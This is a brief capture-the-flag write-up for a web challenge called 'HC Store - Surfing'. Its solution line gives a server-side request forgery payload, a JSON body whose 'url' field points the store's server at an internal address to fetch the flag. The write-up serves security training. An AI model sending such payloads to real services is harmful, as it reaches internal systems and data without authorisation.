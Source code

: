 # HC Store - Surfing

This web store has a least one vulnerability that you can exploit to get the flag. The store is at https://hcstore-surfing.youcanhack.me.

## Solution

Send a POST request to /getprodparam with the body `{"url": "http://192.168.1.1:8008/?productId=1&paramName=flag"}`.